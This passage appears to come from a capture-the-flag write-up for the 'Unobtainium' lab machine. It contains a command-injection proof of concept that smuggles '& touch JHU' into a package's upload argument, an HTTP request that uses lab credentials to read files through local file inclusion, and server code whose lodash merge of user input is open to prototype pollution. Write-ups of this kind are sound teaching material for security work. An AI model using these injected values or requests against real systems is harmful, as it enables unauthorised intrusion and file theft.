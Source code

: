 Let's look for some CVE's

**[google-cloudstorage-commands](https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431)**

Affected versions of this package are vulnerable to Command Injection.

```bash
var root = require("google-cloudstorage-commands");
root.upload("./","& touch JHU", true);
```

lodash has a number of possible vulnerabilities so lets see if we can get a bit more out of our LFI.

```bash
POST /todo HTTP/1.1
Host: unobtainium.htb:31337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
Accept: */*
Content-Type: application/json
Content-Length: 92
Connection: close

{
	"auth":{
		"name":"felamos",
		"password":"Winter2021"
	},
	"filename":"index.js"
}
```

```jsx
app.put("/", (req, res) => {
  const user = findUser(req.body.auth || {})

  if (!user) {
    res.status(403).send({ ok: false, error: "Access denied" })
    return
  }

  const message = {
    icon: "__"
  }

  _.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name
  })

  messages.push(message)
  res.send({ ok: true })
})
```
